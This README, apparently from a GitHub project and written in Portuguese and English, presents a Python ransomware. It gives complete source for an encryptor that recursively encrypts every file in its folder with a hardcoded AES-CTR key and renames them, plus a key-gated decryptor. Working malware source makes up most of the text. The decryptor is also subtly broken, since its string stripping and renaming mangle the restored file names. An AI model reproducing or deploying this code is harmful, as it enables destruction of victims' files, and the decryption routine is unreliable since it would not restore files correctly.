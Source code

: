 # Projeto em Python de um Ransomware (PT-BR)

### Funcionamento

- O intuito deste projeto é criar um Ransomware que criptografe arquivos presentes na pasta onde o Malware está.

- Este Ransomware é dividido em dois executaveis, um deles terá a função de criptografar os arquivos e o outro terá o objetivo de descriptografa-los futuramente.

### Código de Criptografia

- O executavel abre todos os arquivos presentes na pasta onde ele se encontra, verificando se já não estão criptografados ou se não são os próprios executaveis.

- Após abrir cada arquivo presente na pasta ele copia os dados e os criptografa, reescrevendo em seguida o arquivo. Ele também substitui a estenção do arquivo para ".ransomware".

```python
import os
import pyaes

for root, dir, files in os.walk("./"):
    for f in files:
        if f != "decrypt.py" and f != "encrypt.py" and f.split(".")[-1] != "ransomware":
            name = os.path.join(root, f)

            with open(name, "rb") as file:
                file_data = file.read()

            key = b"secretencryptkey"
            aes = pyaes.AESModeOfOperationCTR(key)

            data_encrypt = aes.encrypt(file_data)

            with open(name, "wb") as file:
                file.write(data_encrypt)

            os.rename(name, f"{name}.ransomware")
```

- A chave de criptografia utilizada foi "secretencryptkey", essa chave será utilizada futuramente durante a descriptografia.

### Código de Descriptografia

- Para que o processo se inicie, o executavel exige que o usuário digite a mesma chave de criptografia que foi utilizada para criptografar os arquivos anteriormente. Se digitado corretamente, o processo se inicia, caso contrário, ele apenas retorna a mensagem "Wrong Key!" para o usuário.

- Após a chave de criptografia ser informada corretamente, o executável abre todos os arquivos presentes na pasta, verificando não são os próprios executáveis e se contém a extensão ".ransomware". Com isso, apenas os arquivos que já haviam sido criptografados serão abertos.

- Para cada arquivo aberto, o executável copia dos dados, os descriptografa e reescreve o arquivo. Para finalizar, ele exclui a extensão ".ransomware". Fazendo com que o arquivo volte a seu estado original descriptografado.

```python
import os
import pyaes

secret = input("What the secret key? ")

if secret == "secretencryptkey":
    for root, dir, files in os.walk("./"):
        for f in files:
            if f != "decrypt.py" and f != "encrypt.py" and f.split(".")[-1] == "ransomware":
                name = os.path.join(root, f)
                
                with open(name, "rb") as file:
                    file_data = file.read()

                key = secret.encode()
                aes = pyaes.AESModeOfOperationCTR(key)

                data_decrypt = aes.decrypt(file_data)

                with open(name, "wb") as file:
                    file.write(data_decrypt)

                new_name = name.strip(".ransomware")
                os.rename(name, f".{new_name}")
else:
    print("Wrong Decrypt Key!")
```

### Resultados

- 

### Considerações Finais

- Diferentemente de um Ransomware real, o desenvolvido neste projeto apenas criptografa os arquivos presentes na pasta onde os executaveis se encontram, logo, CUIDADO com os testes realizados fora de um local de testes apropriado.

- Este projeto ainda está em desenvolvimento e sendo atualizado.

# Ransomware Project in Python (EN-US)

### Functionality

- The purpose of this project is to create a Ransomware that encrypts files present in the folder where the Malware is.

- This Ransomware is divided into two executables, one of which will have the function of encrypting the files and the other will have the purpose of decrypting them in the future.

### Encryption Code

- The executable opens all the files in the folder where it is located, checking whether they are already encrypted or whether they are not the executables themselves.

- After opening each file in the folder, it copies the data and encrypts it and then rewrites the file. It also replaces the file extension with ".ransomware".

```python
import os
import pyaes

for root, dir, files in os.walk("./"):
    for f in files:
        if f != "decrypt.py" and f != "encrypt.py" and f.split(".")[-1] != "ransomware":
            name = os.path.join(root, f)

            with open(name, "rb") as file:
                file_data = file.read()

            key = b"secretencryptkey"
            aes = pyaes.AESModeOfOperationCTR(key)

            data_encrypt = aes.encrypt(file_data)

            with open(name, "wb") as file:
                file.write(data_encrypt)

            os.rename(name, f"{name}.ransomware")
```

- The encryption key used was "secretencryptkey", this key will be used later during decryption.

### Decryption Code

- For the process to start, the executable requires the user to enter the same encryption key that was used to encrypt the files previously. If entered correctly, the process starts, otherwise, it simply returns the message "Wrong Key!" to the user.

- After the encryption key is entered correctly, the executable opens all files in the folder, checking if they are not the executables themselves and if they contain the ".ransomware" extension. This means that only files that had already been encrypted will be opened.

- For each file opened, the executable copies the data, decrypts it, and rewrites the file. Finally, it deletes the ".ransomware" extension. This returns the file to its original decrypted state.

```python
import os
import pyaes

secret = input("What the secret key? ")

if secret == "secretencryptkey":
    for root, dir, files in os.walk("./"):
        for f in files:
            if f != "decrypt.py" and f != "encrypt.py" and f.split(".")[-1] == "ransomware":
                name = os.path.join(root, f)
                
                with open(name, "rb") as file:
                    file_data = file.read()

                key = secret.encode()
                aes = pyaes.AESModeOfOperationCTR(key)

                data_decrypt = aes.decrypt(file_data)

                with open(name, "wb") as file:
                    file.write(data_decrypt)

                new_name = name.strip(".ransomware")
                os.rename(name, f".{new_name}")
else:
    print("Wrong Decrypt Key!")
```

### Results

- 

### Final Considerations

- Unlike real Ransomware, the one developed in this project only encrypts the files present in the folder where the executables are located, therefore, BE CAREFUL with tests performed outside an appropriate testing location.

- This project is still under development and being updated.
